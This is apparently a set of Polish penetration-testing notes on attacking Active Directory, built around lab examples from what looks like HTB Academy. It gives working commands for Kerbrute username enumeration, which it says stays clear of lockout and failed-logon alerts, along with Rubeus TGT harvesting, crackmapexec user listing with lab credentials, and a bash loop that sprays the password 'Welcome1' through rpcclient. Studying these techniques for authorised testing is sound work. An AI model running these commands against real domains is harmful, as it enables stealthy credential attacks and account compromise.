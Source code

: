 # 1) Kerbrute (brute force to jedna ramka UDP to KDC nie generuje eventu zlego logowania)
### Info
To narzędzie wykorzystuje wstępne uwierzytelnianie Kerberos, które jest znacznie szybszym i potencjalnie bardziej niewidocznym sposobem przeprowadzania rozpylania haseł. Ta metoda nie generuje zdarzenia systemu Windows o identyfikatorze 4625: nie udało się zalogować do konta lub błąd logowania, który jest często monitorowany. Narzędzie wysyła żądania biletu TGT do kontrolera domeny bez wstępnego uwierzytelniania Kerberos w celu wyliczenia nazwy użytkownika. Jeśli KDC odpowie błędem PRINCIPAL UNKNOWN, nazwa użytkownika jest nieprawidłowa. Za każdym razem, gdy KDC monituje o wstępne uwierzytelnienie Kerberos, oznacza to, że nazwa użytkownika istnieje, a narzędzie oznaczy ją jako prawidłową. Ta metoda wyliczania nazwy użytkownika nie powoduje błędów logowania i nie blokuje kont. 

### Instalacja
      ▪ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
      ▪ chmod +x kerbrute_linux_amd64
### Enumeracja uzytkownikow (wyslanie jednej ramki UDP do KDC)
      ▪ Nie powoduje to alarmow ani zadnych czerwonych logow
      ▪ ./kerbrute_linux_amd64 userenum --dc <domena> -d <adres domeny> <lista>
      ▪ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

```console
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

# 2) Przydatne slowniki
      • Slownik
            ▪ https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

# 3) Proste zabiegi
      • Rubeus (zbiera TGT wysylane do KDC co 30 sekund)
            ▪ .\Rubeus.exe harvest /interval:30 


# Wylistowanie userow jak mamy poprawne poswiadczenia
```console
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
      
# Script Bash (rozpylanie)
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
![](enumBash.png)
      
      
      
      
      
      
      
      
      
